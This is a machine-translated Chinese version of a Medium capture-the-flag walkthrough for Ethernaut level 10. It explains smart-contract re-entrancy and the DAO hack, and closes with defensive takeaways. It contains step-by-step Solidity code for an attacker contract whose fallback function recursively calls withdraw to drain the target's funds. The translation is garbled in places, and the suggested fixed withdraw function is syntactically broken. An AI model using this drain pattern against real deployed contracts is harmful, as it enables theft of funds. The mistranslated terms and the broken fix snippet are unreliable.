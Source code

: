 # Ethernaut Lvl 10 重入演练:如何滥用执行排序和重现 DAO hack

> 原文：<https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14?source=collection_archive---------1----------------------->

## 这是一个围绕 [Zeppelin](https://openzeppelin.org/) 团队的[智能合约安全拼图](https://ethernaut.zeppelin.solutions/)的[深度系列](/@nicolezhu)。我们学习关键的可靠性概念，以便 100%靠自己解决难题。

这个关卡需要你从契约中偷出所有的乙醚。

# `What is re-entrancy`

重入发生在单线程计算环境中，当执行堆栈**跳转**或**调用**子例程时，在返回到原始执行之前。

一方面，这种单线程执行确保了契约的原子性，并消除了一些竞争条件。另一方面，**合同容易受到执行顺序不佳的影响。**

![](img/e7b041dc52857ad745349358d23daf20.png)

**Example of poor code ordering**: transferring the amount before deducting from internal balances ledger

在上面的例子中，合同 B 是一个恶意合同，它递归地调用 A . retract()来耗尽合同 A 的资金。请注意，在合约 A 从其递归循环返回之前，资金提取成功完成，甚至意识到 B 已经提取了远远超过其自身余额的金额。

这个以太网级别利用了这个可重入性问题以及导致 [DAO hack](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) 的其他因素:

*   回退功能[可以被任何人调用&执行恶意代码](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)
*   恶意外部合同[可以滥用提款](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)

# 详细演练

![](img/458168251f9448519d01c1661dea39f7.png)

1.  创建一个名为`Reenter.sol`的恶意合同，该合同会先向`Reentrance.sol`捐款，然后递归退出，直到 Reentrance 资金耗尽。

```
contract Reenter {
    Reentrance public original = Reentrance(YOUR_INSTANCE_ADDR);
    uint public amount = 1 ether;    //withdrawal amount each time
}
```

2.在合同施工时用醚播种`Reenter.sol`;

```
constructor() public payable {
}
```

3.创建一个公共功能，以便`Reenter.sol`可以向`Reentrance.sol`捐款，并在其`balances`分类帐中注册为捐款人:

```
function donateToSelf() public {
    original.donate.value(amount).gas(4000000)(address(this));//need to add value to this fn
  }
```

调用这个函数将确保你的恶意契约至少能够调用`withdraw()`一次，即通过`if(balances[msg.sender] >= _amount)`检查。

![](img/cce9d0dfb100eb59b02b7b0ad299407d.png)

上图展示了让`Reenter.sol`从`Reentrance.sol`提取所有资金的递归循环。

让我们在契约 B 中实现一个恶意回退功能，这样当契约 A 执行`msg.sender.call.value(_amount)()`来退还契约 B 时，您的恶意契约会触发更多的提款。

4.实现此恶意回退功能:

```
function() public payable {
    if (address(original).balance != 0 ) {
        original.withdraw(amount); 
    }
}
```

5.最后，在 Remix 中:将你的合同部署到 Ropsten，用乙醚播种，捐赠给`Reentrance`，然后调用你的后备功能耗尽`Reentrance`的所有资金。

# 关键安全要点

*   执行的顺序在可靠性方面真的很重要。如果您必须进行外部函数调用，请进行最后一项操作(在所有必要的检查和平衡之后):

```
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        balances[msg.sender] -= _amount;         
        if(msg.sender.transfer(_amount)()) {
            _amount;
        }
    }
}
// Or even better, invoke transfer in a separate function
```

*   包括一个**互斥**来防止重入，例如使用一个布尔`lock`变量来表示执行深度。
*   使用**函数修饰符**检查不变量时要小心:修饰符在函数开始时执行。如果变量状态在整个函数中会改变，考虑将修饰符提取到位于函数中正确行的检查中。
*   “使用`transfer`将资金移出你的合同，因为它`throw` s 和限制天然气期货。像`call`和`send`这样的低级函数只是返回 false，但不会在接收契约失败时中断执行流程。”—从以太网级别
*   点击这里查看 DAO hack 的完整[分析。](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

# 更多级别

[](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b) [## 以太者 Lvl 9 国王演练:如何糟糕的合同可以滥用提款

### 这是一个围绕齐柏林团队的智能合同安全难题的深入系列。我们学习关键的可靠性概念…

medium.com](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b) [](/coinmonks/ethernaut-lvl-11-elevator-walkthrough-how-to-abuse-solidity-interfaces-and-function-state-41005470121d) [## Ethernaut Lvl 11 电梯演练:如何滥用 Solidity 接口和功能状态…

### 这是一个围绕齐柏林团队的智能合同安全难题的深入系列。我们学习关键的可靠性概念…

medium.com](/coinmonks/ethernaut-lvl-11-elevator-walkthrough-how-to-abuse-solidity-interfaces-and-function-state-41005470121d) 

> [直接在您的收件箱中获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[![](img/7c0b3dfdcbfea594cc0ae7d4f9bf6fcb.png)](https://coincodecap.com/?utm_source=coinmonks)